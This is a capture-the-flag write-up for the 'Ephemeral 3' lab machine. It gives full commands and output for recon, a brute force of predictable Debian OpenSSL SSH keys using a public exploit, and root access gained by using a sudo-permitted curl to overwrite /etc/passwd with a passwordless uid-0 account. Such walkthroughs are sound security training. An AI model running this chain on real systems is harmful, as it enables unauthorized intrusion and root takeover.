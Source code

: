 [https://hackmyvm.eu/machines/machine.php?vm=Ephemeral3](https://hackmyvm.eu/machines/machine.php?vm=Ephemeral3&ref=rootandbeer.com)

In the "Ephemeral 3" CTF challenge, the exploitation process involved several key techniques and vulnerabilities. Initially, an [[Nmap]] scan revealed SSH and HTTP services running on the target machine. Directory enumeration with [[Gobuster]] led to the discovery of a note indicating the generation of SSH keys using OpenSSL. Leveraging a known vulnerability in OpenSSL, a predictable PRNG brute-force attack was used to obtain a valid SSH key, allowing access to the system as the user "randy."

Once inside, privilege escalation was achieved by exploiting a sudo misconfiguration that allowed the use of `curl` as the user "henry." This was used to modify the `/etc/passwd` file, adding a new user with root privileges. The challenge was successfully completed by accessing the root account and capturing the final flag.

**Initial [[nmap]] scan of the box to notice ports `80` and `22` are open**

```bash
└─$ nmap -A -sC -p- 192.168.5.123                         
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-11 14:05 UTC
Stats: 0:00:09 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 50.00% done; ETC: 14:05 (0:00:06 remaining)
Nmap scan report for 192.168.5.123
Host is up (0.011s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 f0:f2:b8:e0:da:41:9b:96:3b:b6:2b:98:95:4c:67:60 (RSA)
|   256 a8:cd:e7:a7:0e:ce:62:86:35:96:02:43:9e:3e:9a:80 (ECDSA)
|_  256 14:a7:57:a9:09:1a:7e:7e:ce:1e:91:f3:b1:1d:1b:fd (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.12 seconds
```

**Run [[gobuster]] to discover the `/agency` and `/note.txt` objects:**

```bash
└─$ gobuster dir -u http://192.168.5.123 -e -r -x html,htm,asp,aspx,jsp,php,cgi,txt,xml -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
...
http://192.168.5.123/agency               (Status: 200) [Size: 18726]
http://192.168.5.123/index.html           (Status: 200) [Size: 10918]
http://192.168.5.123/index.html           (Status: 200) [Size: 10918]
http://192.168.5.123/note.txt             (Status: 200) [Size: 159]
```

**Going to *[http://192.168.5.123/note.txt](http://192.168.5.123/note.txt?ref=rootandbeer.com)* to see contents:**

>[!quote]
> Hey! I just generated your keys with OpenSSL. You should be able to use your private key now!  
> If you have any questions just email me at [henry@ephemeral.com](mailto:henry@ephemeral.com)

**Lets see if we can find OpenSSL and SSH exploit and download it**

```bash
└─$ searchsploit openssl         
------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                          |  Path
------------------------------------------------------------------------------------------------------------------------ ---------------------------------
...
OpenSSL 0.9.8c-1 < 0.9.8g-9 (Debian and Derivatives) - Predictable PRNG Brute Force SSH                                 | linux/remote/5622.txt
OpenSSL 0.9.8c-1 < 0.9.8g-9 (Debian and Derivatives) - Predictable PRNG Brute Force SSH                                 | linux/remote/5720.py
OpenSSL 0.9.8c-1 < 0.9.8g-9 (Debian and Derivatives) - Predictable PRNG Brute Force SSH (Ruby)                          | linux/remote/5632.rb
...

└─$ searchsploit -m linux/remote/5720.py     
  Exploit: OpenSSL 0.9.8c-1 < 0.9.8g-9 (Debian and Derivatives) - Predictable PRNG Brute Force SSH
      URL: https://www.exploit-db.com/exploits/5720
     Path: /usr/share/exploitdb/exploits/linux/remote/5720.py
    Codes: OSVDB-45029, CVE-2008-3280, CVE-2008-0166
 Verified: True
File Type: Python script, ASCII text executable
Copied to: /home/kali/5720.py
```

**Taking a look at the exploit's contents for installation instructions... apparently we need to download preset keys...**

```bash
└─$ cat 5720.py        
#!/bin/python
#       This program is free software; you can redistribute it and/or modify
#       it under the terms of the GNU General Public License as published by
#       the Free Software Foundation; either version 2 of the License, or
#       (at your option) any later version.
#
#       This program is distributed in the hope that it will be useful,
#       but WITHOUT ANY WARRANTY; without even the implied warranty of
#       MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
#       GNU General Public License for more details.
#
#       You should have received a copy of the GNU General Public License
#       along with this program; if not, write to the Free Software
#       Foundation, Inc., 51 Franklin Street, Fifth Floor, Boston,
#       MA 02110-1301, USA.
############################################################################
# Autor: hitz - WarCat team (warcat.no-ip.org)
# Collaborator: pretoriano
#
# 1. Download https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/5622.tar.bz2 (debian_ssh_rsa_2048_x86.tar.bz2)
#
# 2. Extract it to a directory
#
# 3. Execute the python script
#     - something like: python exploit.py /home/hitz/keys 192.168.1.240 root 22 5
#     - execute: python exploit.py (without parameters) to display the help
#     - if the key is found, the script shows something like that:
#         Key Found in file: ba7a6b3be3dac7dcd359w20b4afd5143-1121
#                 Execute: ssh -lroot -p22 -i /home/hitz/keys/ba7a6b3be3dac7dcd359w20b4afd5143-1121 192.168.1.240
############################################################################
...
```

**Lets download the keys**

```bash
└─$ wget https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/5622.tar.bz2    
--2024-08-11 14:40:21--  https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/5622.tar.bz2
Resolving gitlab.com (gitlab.com)... 172.65.251.78, 2606:4700:90:0:f22e:fbec:5bed:a9b9
Connecting to gitlab.com (gitlab.com)|172.65.251.78|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 50226987 (48M) [application/octet-stream]
Saving to: ‘5622.tar.bz2’

5622.tar.bz2                           100%[==========================================================================>]  47.90M  57.7MB/s    in 0.8s    

2024-08-11 14:40:22 (57.7 MB/s) - ‘5622.tar.bz2’ saved [50226987/50226987]

└─$ tar -xvf 5622* 
rsa/
rsa/2048/
rsa/2048/2712a6d5cec99f295a0c468b830a370d-28940.pub
rsa/2048/eaddc9bba9bf3c0832f443706903cd14-28712.pub
rsa/2048/0bdcea11b2c628c7fd8bc4b04ca43668-12474
rsa/2048/3fabfedd883c3cef69881a4fc30fdac7-3828.pub
rsa/2048/a508919ec49fcf91ad0ecf8472349d9b-3039.pub
rsa/2048/9ddc1879b9ac311f24a81e835aac5866-28340.pub
...
```

**Attempted to brute force the key and got a match**

```bash
└─$ python2 5720.py rsa/2048 192.168.5.123 randy 

-OpenSSL Debian exploit- by ||WarCat team|| warcat.no-ip.org
...
Key Found in file: 0028ca6d22c68ed0a1e3f6f79573100a-31671
Execute: ssh -lrandy -p22 -i rsa/2048/0028ca6d22c68ed0a1e3f6f79573100a-31671 192.168.5.123
Tested 25610 keys | Remaining 7158 keys | Aprox. Speed 4/sec
```

**Executing the command given to us in the output of the script to login as `randy`**

```bash
└─$ ssh -lrandy -p22 -i rsa/2048/0028ca6d22c68ed0a1e3f6f79573100a-31671 192.168.5.123
Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.13.0-30-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

71 updates can be applied immediately.
To see these additional updates run: apt list --upgradable

New release '22.04.3 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

Your Hardware Enablement Stack (HWE) is supported until April 2025.
*** System restart required ***
Last login: Fri Jun 24 01:17:05 2022 from 10.0.0.69
randy@ephemeral:~$
```

**List commands that can be run with `sudo`**

```bash
randy@ephemeral:~$ sudo -l
Matching Defaults entries for randy on ephemeral:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User randy may run the following commands on ephemeral:
    (henry) NOPASSWD: /usr/bin/curl
```

**Found user flag in the `henry` home directory**

```bash
randy@ephemeral:~$ ls /home/henry
user.txt
 
randy@ephemeral:~$ sudo -u henry /usr/bin/curl file:/
9c8e36<REDACTED>56bca0c3a
```

**Search for other files owned by `henry` to discover that the `henry` group has write access to `/etc/passwd`:**

```bash
randy@ephemeral:~$ find / -xdev \( -user henry -o -group henry \) -print 2>&1 |grep -v "Permission denied"
```

**Since we have write access to the `passwd` file, we can add another user in that is apart of the root user and group then overwrite `/etc/passwd` file using `curl`**

```bash
randy@ephemeral:~$ cp /etc/passwd ./passwd
randy@ephemeral:~$ echo "root2::0:0::/home/:/bin/bash" >> ./passwd
randy@ephemeral:~$ sudo -u henry /usr/bin/curl "file:///home/randy/passwd" -o /etc/passwd
randy@ephemeral:~$ su root2
root@ephemeral:/home/randy# whoami
root
root@ephemeral: cat /root/root.txt
b0a3dec<REDACTED>062cec4d
```

---